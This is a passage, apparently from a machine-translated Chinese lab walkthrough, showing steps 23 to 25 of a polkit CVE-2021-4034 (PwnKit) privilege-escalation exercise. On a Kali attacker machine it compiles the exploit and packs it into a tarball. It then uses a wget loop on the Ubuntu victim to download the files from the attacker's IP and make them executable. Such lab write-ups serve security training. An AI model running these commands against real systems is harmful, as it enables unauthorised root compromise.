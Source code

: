 23.可选在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

编译 polkit 漏洞(在 Kali 上)。仅当漏洞无法在本地编译时才执行此步骤。

```
cd /tmp/CVE-2021–4034
make
```

![](img/698b97b3045ca2378fa1d3f9e33533dc.png)

24.可选在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

从 x64 编译的漏洞创建焦油球。

```
cd /tmp
tar -zcvf CVE-2021–4034.gz CVE-2021–4034
```

![](img/43466a2df938594c41b242af6560a702.png)

25.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

从 Kali 下载两个焦油球。

```
file='CVE-2021-4034.gz CVE-2021-4034-source.gz'
LHOST=192.168.62.161
LPORT=80
files="${file}"
for file in $(echo $files); do wget --no-verbose http://${LHOST}:${LPORT}/${file} -O /tmp/${file}; chmod 755 /tmp/${file}; done
```

![](img/b49c04325f2fd6c5002e30c57712f517.png)
